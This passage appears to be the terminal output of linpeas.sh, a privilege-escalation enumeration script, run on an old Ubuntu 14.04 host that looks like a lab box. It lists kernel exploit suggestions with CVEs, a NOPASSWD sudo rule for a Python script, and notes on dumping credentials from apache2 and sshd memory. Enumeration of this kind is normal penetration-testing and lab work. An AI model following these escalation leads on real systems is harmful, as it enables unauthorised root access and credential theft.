/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```


---
## Linpeas.sh

```
cyber@ubuntu:~$ chmod +x linpeas.sh 
cyber@ubuntu:~$ ./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------\
    |                             Do you like PEASS?                            |                                                   
    |---------------------------------------------------------------------------|                                                   
    |         Become a Patreon    :     https://www.patreon.com/peass           |                                                   
    |         Follow on Twitter   :     @carlospolopm                           |                                                   
    |         Respect on HTB      :     SirBroccoli & makikvues                 |                                                   
    |---------------------------------------------------------------------------|                                                   
    |                                 Thank you!                                |                                                   
    \---------------------------------------------------------------------------/                                                   
          linpeas-ng by carlospolop                                                                                                 
                                                                                                                                    
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                                                                                                                  
                                                                                                                                    
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                            
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...

                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════                             
                                         ╚═══════════════════╝                                                                      
OS: Linux version 3.13.0-32-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014
User & Groups: uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
Hostname: ubuntu
Writable folder: /home/cyber
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/nc is available for network discover & port scanning (linpeas can discover hosts and scan ports, learn more with -h)       
                                                                                                                                    

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
                                                                                                                                    
                                        ╔════════════════════╗
════════════════════════════════════════╣ System Information ╠════════════════════════════════════════                              
                                        ╚════════════════════╝                                                                      
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                                       
Linux version 3.13.0-32-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.1 LTS
Release:        14.04
Codename:       trusty

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                          
Sudo version 1.8.9p5                                                                                                                


╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games                                            
New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

╔══════════╣ Date & uptime
Tue Mar 22 17:57:20 IST 2022                                                                                                        
 17:57:20 up  1:12,  1 user,  load average: 0.08, 0.03, 0.05

╔══════════╣ Any sd*/disk* disk in /dev? (limit 20)
disk                                                                                                                                

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                           
UUID=3fd8a877-b004-479a-bd31-3e5fa045252f       /       ext4    errors=remount-ro       0 1                                         
UUID=6de87fb0-e9fb-4ea8-bfd8-27fc25a295a1       none    swap    sw      0 0

╔══════════╣ Environment
╚ Any private information inside environment variables?                                                                             
LESSOPEN=| /usr/bin/lesspipe %s                                                                                                     
HISTFILESIZE=0
MAIL=/var/mail/cyber
SSH_CLIENT=10.9.1.245 60828 22
USER=cyber
LANGUAGE=en_IN:en
SHLVL=1
HOME=/home/cyber
OLDPWD=/tmp
SSH_TTY=/dev/pts/0
LOGNAME=cyber
_=./linpeas.sh
XDG_SESSION_ID=1
TERM=xterm-256color
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
XDG_RUNTIME_DIR=/run/user/1000
LANG=en_IN
HISTSIZE=0
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:
SHELL=/bin/bash
LESSCLOSE=/usr/bin/lesspipe %s %s
PWD=/home/cyber
SSH_CONNECTION=10.9.1.245 60828 10.10.87.6 22
HISTFILE=/dev/null

╔══════════╣ Searching Signature verification failed in dmesg
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#dmesg-signature-verification-failed                                   
dmesg Not Found                                                                                                                     
                                                                                                                                    
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                  
sed: -e expression #1, char 27: unknown option to `s'                                                                               

╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                             
  [1] exploit_x                                                                                                                     
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [2] overlayfs
      CVE-2015-8660
      Source: http://www.exploit-db.com/exploits/39230
  [3] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
  [4] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346


╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.                                       
apparmor module is loaded.
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found                                                                                   
═╣ Execshield enabled? ............ Execshield Not Found                                                                            
═╣ SELinux enabled? ............... sestatus Not Found                                                                              
═╣ Is ASLR enabled? ............... Yes                                                                                             
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes                                                                                             

                                             ╔═══════════╗
═════════════════════════════════════════════╣ Container ╠═════════════════════════════════════════════                             
                                             ╚═══════════╝                                                                          
╔══════════╣ Container related tools present
╔══════════╣ Container details                                                                                                      
═╣ Is this a container? ........... No                                                                                              
═╣ Any running containers? ........ No                                                                                              
                                                                                                                                    

                          ╔════════════════════════════════════════════════╗
══════════════════════════╣ Processes, Crons, Timers, Services and Sockets ╠══════════════════════════                              
                          ╚════════════════════════════════════════════════╝                                                        
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes              
root         1  0.1  0.5  33484  2812 ?        Ss   16:44   0:08 /sbin/init                                                         
root       290  0.0  0.1  19604   920 ?        S    16:44   0:01 upstart-udev-bridge --daemon[0m
root       295  0.0  0.3  51288  1620 ?        Ss   16:44   0:00 /lib/systemd/systemd-udevd --daemon
message+   373  0.0  0.2  39232  1252 ?        Ss   16:44   0:00 dbus-daemon --system --fork
root       390  0.0  0.3  43456  1764 ?        Ss   16:44   0:00 /lib/systemd/systemd-logind
syslog     393  0.0  0.2 255844  1380 ?        Ssl  16:44   0:00 rsyslogd
root       581  0.0  0.5  10232  2920 ?        Ss   16:45   0:00 dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
root       703  0.0  0.2  15940  1208 ?        S    16:45   0:00 upstart-file-bridge --daemon[0m
root       737  0.0  0.1  15568   996 ?        S    16:45   0:00 upstart-socket-bridge --daemon[0m
root       796  0.0  0.1  15820   948 tty4     Ss+  16:45   0:00 /sbin/getty -8 38400 tty4
root       799  0.0  0.1  15820   956 tty5     Ss+  16:45   0:00 /sbin/getty -8 38400 tty5
root       804  0.0  0.1  15820   960 tty2     Ss+  16:45   0:00 /sbin/getty -8 38400 tty2
root       805  0.0  0.1  15820   960 tty3     Ss+  16:45   0:00 /sbin/getty -8 38400 tty3
root       807  0.0  4.4 400428 22016 ?        Ssl  16:45   0:00 /usr/bin/amazon-ssm-agent
root       809  0.0  0.1  15820   956 tty6     Ss+  16:45   0:00 /sbin/getty -8 38400 tty6
root       828  0.0  0.6  61368  3056 ?        Ss   16:45   0:00 /usr/sbin/sshd -D
cyber     1282  0.0  0.3 105772  1996 ?        S    17:36   0:00      _ sshd: cyber@pts/0   
cyber     1283  0.0  0.7  22416  3712 pts/0    Ss   17:36   0:00          _ -bash
cyber     1459  0.2  0.3   5144  1512 pts/0    S+   17:57   0:00              _ /bin/sh ./linpeas.sh
cyber     5915  0.0  0.1   5144   916 pts/0    S+   17:57   0:00                  _ /bin/sh ./linpeas.sh
cyber     5919  0.0  0.2  18612  1356 pts/0    R+   17:57   0:00                  |   _ ps fauxwww
cyber     5918  0.0  0.1   5144   916 pts/0    S+   17:57   0:00                  _ /bin/sh ./linpeas.sh
daemon[0m     830  0.0  0.0  19144   384 ?        Ss   16:45   0:00 atd
root       831  0.0  0.2  23656  1024 ?        Ss   16:45   0:00 cron
root       849  0.0  0.1   4372   660 ?        Ss   16:45   0:00 acpid -c /etc/acpi/events -s /var/run/acpid.socket
mysql      981  0.0  8.9 623984 44860 ?        Ssl  16:45   0:02 /usr/sbin/mysqld
root      1091  0.0  0.1  15820   956 tty1     Ss+  16:45   0:00 /sbin/getty -8 38400 tty1
root      1441  0.0  3.0 276348 15152 ?        Ss   17:51   0:00 /usr/sbin/apache2 -k start
www-data  1445  0.0  1.1 276372  5844 ?        S    17:51   0:00  _ /usr/sbin/apache2 -k start
www-data  1446  0.0  1.1 276372  5844 ?        S    17:51   0:00  _ /usr/sbin/apache2 -k start
www-data  1447  0.0  1.1 276372  5844 ?        S    17:51   0:00  _ /usr/sbin/apache2 -k start
www-data  1448  0.0  1.1 276372  5844 ?        S    17:51   0:00  _ /usr/sbin/apache2 -k start
www-data  1449  0.0  1.1 276372  5844 ?        S    17:51   0:00  _ /usr/sbin/apache2 -k start

╔══════════╣ Binary processes permissions (non 'root root' and not beloging to current user)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                                                             
                                                                                                                                    
╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information                                  
COMMAND    PID  TID       USER   FD      TYPE DEVICE SIZE/OFF    NODE NAME                                                          

╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#credentials-from-process-memory                                       
gdm-password Not Found                                                                                                              
gnome-keyring-daemon Not Found                                                                                                      
lightdm Not Found                                                                                                                   
vsftpd Not Found                                                                                                                    
apache2 process found (dump creds from memory as root)                                                                              
sshd: process found (dump creds from memory as root)

╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs                                                   
/usr/bin/crontab                                                                                                                    
incrontab Not Found
-rw-r--r-- 1 root root     722 Feb  9  2013 /etc/crontab                                                                            

/etc/cron.d:
total 16
drwxr-xr-x  2 root root 4096 Nov 11  2020 .
drwxr-xr-x 93 root root 4096 Mar 22 16:44 ..
-rw-r--r--  1 root root  510 Apr 23  2019 php5
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.daily:
total 76
drwxr-xr-x  2 root root  4096 Nov  9  2020 .
drwxr-xr-x 93 root root  4096 Mar 22 16:44 ..
-rwxr-xr-x  1 root root   625 Apr  3  2019 apache2
-rwxr-xr-x  1 root root   376 Apr  4  2014 apport
-rwxr-xr-x  1 root root 15481 Apr 10  2014 apt
-rwxr-xr-x  1 root root   314 Feb 18  2014 aptitude
-rwxr-xr-x  1 root root   355 Jun  4  2013 bsdmainutils
-rwxr-xr-x  1 root root   256 Mar  7  2014 dpkg
-rwxr-xr-x  1 root root   372 Jan 23  2014 logrotate
-rwxr-xr-x  1 root root  1261 Apr 10  2014 man-db
-rwxr-xr-x  1 root root   435 Jun 20  2013 mlocate
-rwxr-xr-x  1 root root   249 Feb 17  2014 passwd
-rw-r--r--  1 root root   102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root  2417 May 13  2013 popularity-contest
-rwxr-xr-x  1 root root   214 Apr 10  2014 update-notifier-common
-rwxr-xr-x  1 root root   328 Jul 18  2014 upstart

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Nov  9  2020 .
drwxr-xr-x 93 root root 4096 Mar 22 16:44 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Nov  9  2020 .
drwxr-xr-x 93 root root 4096 Mar 22 16:44 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.weekly:
total 28
drwxr-xr-x  2 root root 4096 Nov  9  2020 .
drwxr-xr-x 93 root root 4096 Mar 22 16:44 ..
-rwxr-xr-x  1 root root  730 Feb 23  2014 apt-xapian-index
-rwxr-xr-x  1 root root  427 Apr 16  2014 fstrim
-rwxr-xr-x  1 root root  771 Apr 10  2014 man-db
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root  211 Apr 10  2014 update-notifier-common

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin


╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#systemd-path-relative-paths                                           
                                                                                                                                    
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#services                                                              
You can't write on systemd PATH                                                                                                     

╔══════════╣ System timers
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                                
                                                                                                                                    
╔══════════╣ Analyzing .timer files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                                
                                                                                                                                    
╔══════════╣ Analyzing .socket files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets                                                               
/lib/systemd/system/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket                                  
/lib/systemd/system/dbus.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/lib/systemd/system/sockets.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket

╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets                                                               
/com/ubuntu/upstart                                                                                                                 
/dev/log
  └─(Read Write)
/run/acpid.socket
  └─(Read Write)
/run/dbus/system_bus_socket
  └─(Read Write)
/run/mysqld/mysqld.sock
  └─(Read Write)
/run/udev/control
  └─(Read )
/var/run/acpid.socket
  └─(Read Write)
/var/run/dbus/system_bus_socket
  └─(Read Write)
/var/run/mysqld/mysqld.sock
  └─(Read Write)

╔══════════╣ D-Bus config files
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#d-bus                                                                 
Possible weak user policy found on /etc/dbus-1/system.d/wpa_supplicant.conf (        <policy group="netdev">)                       

╔══════════╣ D-Bus Service Objects list
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#d-bus                                                                 
busctl Not Found                                                                                                                    
                                                                                                                                    

                                        ╔═════════════════════╗
════════════════════════════════════════╣ Network Information ╠════════════════════════════════════════                             
                                        ╚═════════════════════╝                                                                     
╔══════════╣ Hostname, hosts and DNS
ubuntu                                                                                                                              
127.0.0.1       localhost
127.0.1.1       ubuntu

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
nameserver 10.0.0.2
search eu-west-1.compute.internal

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                 
link-local 169.254.0.0
eth0      Link encap:Ethernet  HWaddr 02:41:d9:d1:3d:a1  
          inet addr:10.10.87.6  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::41:d9ff:fed1:3da1/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:3010 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2348 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:976433 (976.4 KB)  TX bytes:435636 (435.6 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:96 errors:0 dropped:0 overruns:0 frame:0
          TX packets:96 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:7860 (7.8 KB)  TX bytes:7860 (7.8 KB)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                            
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               

╔══════════╣ Can I sniff with tcpdump?
No                                                                                                                                  
                                                                                                                                    


                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Users Information ╠═════════════════════════════════════════                             
                                         ╚═══════════════════╝                                                                      
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#users                                                                 
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)                

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg                                                                                                                        
netpgpkeys Not Found
netpgp Not Found                                                                                                                    
                                                                                                                                    
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                         
Matching Defaults entries for cyber on ubuntu:                                                                                      
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py

╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens                                                   
ptrace protection is enabled (1)                                                                                                    
gdb wasn't found in PATH, this might still be vulnerable but linpeas won't be able to check it

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#pe-method-2                               
                                                                                                                                    
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                     

╔══════════╣ Users with console
cyber:x:1000:1000:cyber,,,:/home/cyber:/bin/bash                                                                                    
root:x:0:0:root:/root:/bin/bash
yash:x:1002:1002:,,,:/home/yash:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                              
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
uid=1002(yash) gid=1002(yash) groups=1002(yash)
uid=100(libuuid) gid=101(libuuid) groups=101(libuuid)
uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
uid=102(messagebus) gid=106(messagebus) groups=106(messagebus)
uid=103(landscape) gid=109(landscape) groups=109(landscape)
uid=104(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(mysql) gid=113(mysql) groups=113(mysql)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)

╔══════════╣ Login now
 17:57:27 up  1:12,  1 user,  load average: 0.64, 0.15, 0.09                                                                        
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
cyber    pts/0    ip-10-9-1-245.eu 17:36   15.00s  0.12s  0.00s w

╔══════════╣ Last logons
reboot   system boot  Thu Nov 12 10:15:01 2020 - Tue Nov 17 20:25:13 2020 (5+10:10)    0.0.0.0                                      
root     pts/0        Wed Nov 11 16:53:38 2020 - crash                     (17:21)     192.168.29.248
reboot   system boot  Wed Nov 11 16:51:22 2020 - Tue Nov 17 20:25:13 2020 (6+03:33)    0.0.0.0
root     pts/0        Wed Nov 11 00:34:26 2020 - crash                     (16:16)     192.168.29.248
reboot   system boot  Wed Nov 11 00:32:27 2020 - Tue Nov 17 20:25:13 2020 (6+19:52)    0.0.0.0
root     pts/0        Mon Nov  9 22:07:24 2020 - crash                    (1+02:25)    192.168.29.248
root     tty1         Mon Nov  9 21:54:27 2020 - crash                    (1+02:38)    0.0.0.0
reboot   system boot  Mon Nov  9 21:53:58 2020 - Tue Nov 17 20:25:13 2020 (7+22:31)    0.0.0.0

wtmp begins Mon Nov  9 21:53:42 2020

╔══════════╣ Last time logon each user
Username         Port     From             Latest                                                                                   
root             tty1                      Tue Nov 17 19:45:42 +0530 2020
cyber            pts/0    ip-10-9-1-245.eu Tue Mar 22 17:36:52 +0530 2022
yash             pts/0    192.168.29.248   Tue Nov 17 13:25:54 +0530 2020

╔══════════╣ Do not forget to test 'su' as any other user with shell: without password and with their names as password (I can't do it...)                                                                                                                              
                                                                                                                                    
╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
                                                                                                                                    


                                       ╔══════════════════════╗
═══════════════════════════════════════╣ Software Information ╠═══════════════════════════════════════                              
                                       ╚══════════════════════╝                                                                     
╔══════════╣ Useful software
/usr/bin/base64                                                                                                                     
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/usr/bin/make
/bin/nc
/bin/netcat
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers
ii  g++                                 4:4.8.2-1ubuntu6              amd64        GNU C++ compiler                                 
ii  g++-4.8                             4.8.4-2ubuntu1~14.04.4        amd64        GNU C++ compiler
ii  gcc                                 4:4.8.2-1ubuntu6              amd64        GNU C compiler
ii  gcc-4.8                             4.8.4-2ubuntu1~14.04.4        amd64        GNU C compiler
/usr/bin/gcc

╔══════════╣ MySQL version
mysql  Ver 14.14 Distrib 5.5.62, for debian-linux-gnu (x86_64) using readline 6.3                                                   

═╣ MySQL connection using default root/root ........... No
═╣ MySQL connection using root/toor ................... No                                                                          
═╣ MySQL connection using root/NOPASS ................. No                                                                          
                                                                                                                                    
╔══════════╣ Searching mysql credentials and exec
From '/etc/mysql/my.cnf' Mysql user: user               = mysql                                                                     
Found readable /etc/mysql/my.cnf
[client]
port            = 3306
socket          = /var/run/mysqld/mysqld.sock
[mysqld_safe]
socket          = /var/run/mysqld/mysqld.sock
nice            = 0
[mysqld]
user            = mysql
pid-file        = /var/run/mysqld/mysqld.pid
socket          = /var/run/mysqld/mysqld.sock
port            = 3306
basedir         = /usr
datadir         = /var/lib/mysql
tmpdir          = /tmp
lc-messages-dir = /usr/share/mysql
skip-external-locking
bind-address            = 127.0.0.1
key_buffer              = 16M
max_allowed_packet      = 16M
thread_stack            = 192K
thread_cache_size       = 8
myisam-recover         = BACKUP
query_cache_limit       = 1M
query_cache_size        = 16M
log_error = /var/log/mysql/error.log
expire_logs_days        = 10
max_binlog_size         = 100M
[mysqldump]
quick
quote-names
max_allowed_packet      = 16M
[mysql]
[isamchk]
key_buffer              = 16M
!includedir /etc/mysql/conf.d/

╔══════════╣ Analyzing MariaDB Files (limit 70)
                                                                                                                                    
-rw------- 1 root root 333 Nov 11  2020 /etc/mysql/debian.cnf

╔══════════╣ Analyzing Apache Files (limit 70)
Version: Server version: Apache/2.4.7 (Ubuntu)                                                                                      
Server built:   Apr  3 2019 18:04:25
httpd Not Found
                                                                                                                                    
══╣ PHP exec extensions
/etc/apache2/mods-available/php5.conf-<FilesMatch ".+\.ph(p[345]?|t|tml)$">                                                         
/etc/apache2/mods-available/php5.conf:    SetHandler application/x-httpd-php
--
/etc/apache2/mods-available/php5.conf-<FilesMatch ".+\.phps$">
/etc/apache2/mods-available/php5.conf:    SetHandler application/x-httpd-php-source
--
/etc/apache2/mods-enabled/php5.conf-<FilesMatch ".+\.ph(p[345]?|t|tml)$">
